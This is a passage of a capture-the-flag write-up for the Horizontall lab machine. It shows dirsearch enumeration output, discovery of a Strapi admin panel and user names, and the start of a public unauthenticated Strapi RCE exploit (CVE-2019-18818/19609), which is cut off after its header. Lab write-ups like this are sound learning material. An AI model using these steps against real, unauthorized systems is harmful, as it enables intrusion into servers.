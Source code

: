 ![](Pasted%20image%2020241219100338.png)

So it was time to apply some [JavaScript Deobfuscation 🎸](javascript_deobfuscation.md):

![](Pasted%20image%2020241219101306.png)

I discovered a new vhost, so I added it to my known ones:

![](Pasted%20image%2020241219101421.png)

So now I performed some enumeration again with [dirsearch 📁](/notes/tools/dirsearch.md):

```shell
dirsearch -u http://api-prod.horizontall.htb -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e *

[redacted]
[10:15:49] 200 -  507B  - /reviews                                          
[10:15:49] 403 -   60B  - /users                                            
[10:15:49] 200 -  854B  - /admin                                            
[10:15:53] 200 -  507B  - /Reviews                                          
[10:15:59] 403 -   60B  - /Users                                            
[10:16:06] 200 -  854B  - /Admin
```

If we inspect `reviews` we can see all the ones that currently exist:

![](Pasted%20image%2020241219101703.png)

We can see that there are already 3 users: `wail`, `doe` and `john`

I also discovered an admin panel inside `/admin`:

![](Pasted%20image%2020241219101754.png)

I tried some basic combinations, but none was successfull, so I checked for some CVE related to Strapi

## Weaponization

![](Pasted%20image%2020241219102353.png)

So I got the script of the setting password Unauthenticated:

```shell
cp $(locate multiple/webapps/50239.py) .
```

```python
# Exploit Title: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
# Date: 2021-08-30
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://strapi.io/
# Software Link: https://strapi.io/
# Version: Strapi CMS version 3.0.0-beta.17.4 or lower
# Tested on: Ubuntu 20.04
# CVE : CVE-2019-18818, CVE-2019-19609

#!/usr/bin/env python3

import requests
import json
from cmd import Cmd
import sys

if len(sys.argv) != 2:
    print("[-] Wrong number of arguments provided")
```